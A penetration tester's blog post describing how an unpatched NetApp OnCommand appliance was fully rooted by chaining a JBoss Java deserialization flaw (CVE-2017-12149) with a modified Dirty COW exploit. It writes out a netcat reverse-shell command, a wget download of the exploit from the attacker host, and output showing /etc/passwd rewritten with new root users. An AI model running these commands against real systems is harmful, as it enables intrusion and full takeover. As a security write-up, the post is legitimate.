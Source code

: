 ```yaml
---
layout: post
title: Deserialized Double Dirty
categories: [pentest, exploits]
tags: [java, deserialization, jboss, dirtycow, privilege escalation]
comments: true
---
```

Recently I was able to fully root an NetApp OnCommand Performance Manager appliance using a Java Deserialization vulnerability and Dirty Cow.  

Disclaimer: NetApp has security patches for both of these issues. This appliance simply had not been updated.

Late last year I ran into a device that was vulnerable to [CVE-2017-12149](https://nvd.nist.gov/vuln/detail/CVE-2017-12149) and was able to get a shell on that device. After using [Ysoserial](https://github.com/frohoff/ysoserial) and loading in the payloads in Burp Repeater (pro tip from @hateshaped: right click -> paste from file), I wanted to automate the building and delivery of the payload. I knew @byt3bl33d3r had a quite a few of these scripts on [Coalfire Lab's Github](https://github.com/Coalfire-Research/java-deserialization-exploits) so I modified a similar JBoss script for this specific vulnerability. The PoC can be found [here](https://github.com/jreppiks/CVE-2017-12149.git)

So when this popped up again, I was super excited. The system had a "modern" version of netcat, so ```nc -e``` worked just fine to grab a shell. 
```
python jdspoc.py --proto http --ysoserial-path ./ysoserial.jar 10.10.193.110:80 'nc -ne /bin/bash 192.168.3.230 8000'
```
This time, however, the admin (or perhaps NetApp) had done something right, the application was not running as root, but a low privilege user. 
```
 nc -lvp 8000
listening on [any] 8000 ...
192.168.193.110: inverse host lookup failed: Unknown host
connect to [192.168.3.230] from (UNKNOWN) [10.10.193.110] 34503
id
uid=998(jboss) gid=42(shadow) groups=1002(jboss),42(shadow)
```
While doing some enumeration, uname came back with the following:
```
Debian 3.2.68-1+deb7u1
```
Ripe for Dirty COW! The Dirty COW explot I'm most familiar with is [Firefart's exploit](https://github.com/FireFart/dirtycow.git). It's stable and it works. I ran the explot and it created the firefart user with no issues, but this is where it got interesting.

Typical "firefartage" one does ```su - firefart``` or ssh firefart@<ip>. However, I could not upgrade my shell to a TTY shell (I'm sure I'm saying that wrong...). I could not ```su -``` since I didn't have a "real" terminal. I tried all the usual tricks (e.g. [Pentest Monkey's awesomeness](http://pentestmonkey.net/blog/post-exploitation-without-a-tty) and [Ropnop's great blog](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)) but not even stackoverflow could help me out! 
  
SSH was also a bust. The ssh server on the system was set up so only members of the maintenance group could log in and it could not be a root user. I decided to modify Firefart's code and make the firefart user an non-root user and add them to the maintenace group. I ran the exploit and it created the user! I was now able to ssh into the device. I was still not root, though. So, I ran the original exploit again thinking I could then just '''su - firefart'''. When I tried that, it failed with an error: ```I have no name!``` 

Even, running the script twice with two different usernames ended in the same error. I decided I needed to modify the exploit code again to add both users at the same time. You can grab the modified code I lovingly named doubledirty [here](https://github.com/jreppiks/doubledirty.git) Please be kind, I am not a developer, but it complied and ran on the very first time, that has to count for something, right?!

I grabbed the new explot code and ran it on the system:
```
jboss@netapp:/tmp$ wget 192.168.3.230:8080/doubledirty
wget 192.168.3.230:8080/doubledirty
--2019-08-16 14:28:23--  http://192.168.3.230:8080/doubledirty
Connecting to 192.168.3.230:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18200 (18K) [application/octet-stream]
Saving to: `doubledirty'

     0K .......... .......                                    100% 30.4M=0.001s

2019-08-16 14:28:23 (30.4 MB/s) - `doubledirty' saved [18200/18200]

jboss@netapp:/tmp$ ls -ltr
ls -ltr
total 696
drwx------ 2 root  root          4096 Feb  8  2016 vmware-root
-rw-r--r-- 1 root  root           654 Feb  8  2016 netapp-opm-postinst.log
-rw-r--r-- 1 jboss shadow       18200 Aug 16 14:27 doubledirty
jboss@netapp:/tmp$ chmod +x doubledirty
chmod +x doubledirty
jboss@netapp:/tmp$ ./doubledirty
./doubledirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Complete line:

jreppiksroot:2fe7ebe7ff742bf25fd67824bfed403a:0:0:pwned:/root:/bin/bash
jreppiks:2fe7ebe7ff742bf25fd67824bfed403a:14:1000:pwned:/root:/bin/bash
```

I was able to ssh in as the non-priveledged user and then su - to the root user!
```
# ssh jreppiks@10.10.193.110
Password: 
Linux ihccopm 3.2.0-4-amd64 #1 SMP Debian 3.2.68-1+deb7u1 x86_64
Last login: Fri Aug 16 11:48:49 2019 from 192.168.3.230
Could not chdir to home directory /root: Permission denied
-bash: /root/.bash_profile: Permission denied
jreppiks@ihccopm:/$ id
uid=14(jreppiks) gid=1000(maintenance) groups=1000(maintenance)
jreppiks@ihccopm:/$ su - jreppiksroot
Password: 
jreppiksroot@ihccopm:~# id
uid=0(jreppiksroot) gid=0(root) groups=0(root)
jreppiksroot@ihccopm:~# 
```
